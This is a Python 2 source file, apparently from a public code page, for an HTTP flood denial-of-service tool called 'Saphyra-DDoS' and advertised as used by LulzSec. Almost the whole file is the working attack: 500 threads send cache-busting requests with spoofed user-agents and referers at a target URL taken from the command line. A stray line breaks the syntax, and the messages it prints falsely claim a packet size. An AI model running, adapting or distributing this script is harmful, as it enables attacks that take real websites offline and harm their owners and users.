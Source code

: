 # Saphyra-DDoS
Hard-Hitting ddos script used by lulsec
import urllib2
import sys
import threading
import random
import re

#global params
url=''
host=''
headers_useragents=[]
headers_referers=[]
request_counter=0
flag=0
safe=0

def inc_counter():
	global request_counter
	request_counter+=1

def set_flag(val):
	global flag
	flag=val

def set_safe():
	global safe
	safe=1
# generates a user agent array
def useragent_list():
	global headers_useragents
	headers_useragents.append('Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/4.0.219.6 Safari/532.1')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.5.30729; .NET CLR 3.0.30729)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.2; Win64; x64; Trident/4.0)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; SV1; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 6.0; en-US)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 6.1; Windows XP)')
	headers_useragents.append('Opera/9.80 (Windows NT 5.2; U; ru) Presto/2.5.22 Version/10.51')
	return(headers_useragents)

# generates a referer array
def referer_list():
	global headers_referers
	headers_referers.append('http://www.google.com/?q=')
	headers_referers.append('http://www.usatoday.com/search/results?q=')
	headers_referers.append('http://engadget.search.aol.com/search?q=')
	headers_referers.append('http://' + host + '/')
	return(headers_referers)

#builds random ascii string
def buildblock(size):
	out_str = ''
	for i in range(0, size):
		a = random.randint(65, 90)
		out_str += chr(a)
	return(out_str)
print)'
def usage():
	print '---------------------------------------------------'
	print 'USAGE: python httpdoser.py <url>'
	print 'httpdoser website : DDoS Attack'
	print "\a"
print \
"""
                   ...
                 ;::::;   Http_Doser Starting...
               ;::::; :;    By Chip-Hacker
             ;:::::'   :;
            ;:::::;     ;.
           ,:::::'       ;           OOO\
           ::::::;       ;          OOOOO\
           ;:::::;       ;         OOOOOOOO
          ,;::::::;     ;'         / OOOOOOO
        ;:::::::::`. ,,,;.        /  / DOOOOOO
      .';:::::::::::::::::;,     /  /     DOOOO
     ,::::::;::::::;;;;::::;,   /  /        DOOO
    ;`::::::`'::::::;;;::::: ,#/  /          DOOO
    :`:::::::`;::::::;;::: ;::#  /            DOOO
    ::`:::::::`;:::::::: ;::::# /              DOO
    `:`:::::::`;:::::: ;::::::#/               DOO
     :::`:::::::`;; ;:::::::::##                OO
     ::::`:::::::`;::::::::;:::#                OO
     `:::::`::::::::::::;'`:;::#                O
      `:::::`::::::::;' /  / `:#
       ::::::`:::::;'  /  /   `#
"""
print '---------------------------------------------------'


#http request
def httpcall(url):
	useragent_list()
	referer_list()
	code=0
	if url.count("?")>0:
		param_joiner="&"
	else:
		param_joiner="?"
	request = urllib2.Request(url + param_joiner + buildblock(random.randint(3,10)) + '=' + buildblock(random.randint(3,10)))
	request.add_header('User-Agent', random.choice(headers_useragents))
	request.add_header('Cache-Control', 'no-cache')
	request.add_header('Accept-Charset', 'ISO-8859-1,utf-8;q=0.7,*;q=0.7')
	request.add_header('Referer', random.choice(headers_referers) + buildblock(random.randint(5,10)))
	request.add_header('Keep-Alive', random.randint(110,120))
	request.add_header('Connection', 'keep-alive')
	request.add_header('Host',host)
	try:
			urllib2.urlopen(request)
	except urllib2.HTTPError, e:
			#print e.code
			set_flag(1)
 			print 'Flooding WebSite Port 80 with 65000-byte packets for 99999'
			code=500
	except urllib2.URLError, e:
			#print e.reason
			sys.exit()
	else:
			inc_counter()
			urllib2.urlopen(request)
	return(code)


#http caller thread
class HTTPThread(threading.Thread):
	def run(self):
		try:
			while flag<2:
				code=httpcall(url)
				if (code==500) & (safe==1):
					set_flag(2)
		except Exception, ex:
			pass

# monitors http threads and counts requests
class MonitorThread(threading.Thread):
	def run(self):
		previous=request_counter
		while flag==0:
			if (previous+100<request_counter) & (previous<>request_counter):
				print "%d Shots sends Senting" % (request_counter)
				previous=request_counter
		if flag==2:
			print "\n -M60 Hits are secced"

#execute
if len(sys.argv) < 2:
	usage()
	sys.exit()
else:
	if sys.argv[1]=="help":
		usage()
		sys.exit()
	else:
		print "Flooding WebSite Port 80 with 65000-byte packets for 99999 By DDoS Attack"
		if len(sys.argv)== 3:
			if sys.argv[2]=="safe":
				set_safe()
		url = sys.argv[1]
		if url.count("/")==2:
			url = url + "/"
		m = re.search('http\://([^/]*)/?.*', url)
		host = m.group(1)
		for i in range(500):
			t = HTTPThread()
			t.start()
		t = MonitorThread()
		t.start()

